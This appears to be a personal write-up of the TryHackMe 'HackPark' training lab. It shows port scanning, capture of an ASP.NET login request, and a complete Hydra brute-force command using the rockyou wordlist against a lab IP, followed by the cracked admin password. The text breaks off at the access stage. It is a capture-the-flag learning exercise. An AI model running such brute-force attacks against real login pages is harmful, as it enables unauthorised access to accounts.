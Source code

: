 [TryHackMe \| HackPark](https://tryhackme.com/room/hackpark)

---
# Enumeration
## Nmap
```
nmap -p- 10.10.158.222
```

## Port 80 - Webserver
![[Pasted image 20251018151941.png]]

# Whats the name of the clown displayed on the homepage?
The hint indicates that we have to conduct a reverse image search of the image, a quick google search will provide sites like: tinyeye, etc. Paste the image and sources of other matches will be there
![[Pasted image 20251018152626.png]]
The Clown itself is from the movie IT, with the name: Pennywise

# Using Hydra to brute-force a login
![[Pasted image 20251018152750.png]]
The login page can be found at the URL: [Title Unavailable \| Site Unreachable](http://10.10.205.233/Account/login.aspx?ReturnURL=/admin/)

We have seen that the user "Administrator" created the clown post, so we can assume that that is a user which we can use to log into the website
Lets give it a try with Hydra
## What request type is the Windows website login form using?
1. We can inspect the login page using the firefox inspect feature of if we used burpsuite to capture the packet
![[Pasted image 20251018153257.png]]
We can also go in the request of the packet to see the full payload that we can use for Hydra
![[Pasted image 20251018155434.png]]

```
__VIEWSTATE=YDG4yvPxsI%2FrkHv%2BytjYF3gyLeQKch33DAhPlARC03EXcitJ8FQqPBAOYWWH%2BTwUBvOe9la0g%2BlgWMl3uzRSUANGcJ%2BoG04yDaEwPXUtJ7VSLlzUecxApyFCH95f%2F3zuTuUC8u2wvQ4qR%2FxLEiE0WNQuDpvbplBGdRA1qkYfNUI4tdlAbgqeVS4mvR%2B55SVn9GxLm0AzyScOSgQiZfbGq4FRMr1cGaiV3ZrvuATvH97TPjuSBeDyVIo4YbW3XiAYd34iFnmSPivFC%2FIt%2FBBrN3SKaOSyWPVKbO%2FBxaVRzaChAdFVBhVdEX0dhHDyne7IEaCqOsWyPsnLSss5iQ5LOqjd%2FasZHdRbp56BT0y06Idq7gU4&__EVENTVALIDATION=C%2Ba9uGa5lKAY3aX0i53V929ygcyRI0wSsXwFeqqUquOzRI8B3qDGsxiF7N02GETZgpLOfIJHP2gB6J9BCwdQx%2BqNOyejkDcTfUPZhblhNxkgfn1lqyWkA9RNNshY2DkDpUMOCe52ql2bQ4s6fF9smHx4RSo1a%2F7L8Yw6VWl99JHdTkww&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=test&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
## Cracking POST Request Login Page with Hydra (http-post-form)
```
hydra -l <user> -P <password.txt> <ip-target> http-post-form "header_file_name:request:error_notif"

# Command

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```
### Complete Hydra Command 
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/Account/login.aspx:__VIEWSTATE=GlE2yCmLJhjxMS3WAapWzHpHopOnSZe%2Bql42iFWRXoiZ5H%2B8ev8wIrptaXJve3Sbd6pT%2FrwUgyiQoljyTpvaSFmerFfikAhX%2B0x7wPKeGvX%2Bln5s3lF2MiRyzfhkETMzMVqmG9YOF%2BAbgUUrv5BaI3M%2BnQEoVdHs68l%2BWv%2Fl1Kju7ufm&__EVENTVALIDATION=fHY6mqK6KeT8pJYrkCm%2FDIV5hhJF6aZ7UbhYd3Y4cdb0CgsyhEzYd6Pa1y8%2F463qYWZXFr0uMjTAP81waQE2U5kWlkKKjrEi8KYqWJBk0C%2F0Wmoo%2B0GtbYNAYGwQh%2F5bdiyauLB7eVBmo%2F%2BGKpFUGFB5GFJyiAvLS78nzJwIsoRgpDZY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

![[Pasted image 20251018160029.png]]

### Password
```
login: admin   password: 1qaz2wsx
```

# Acces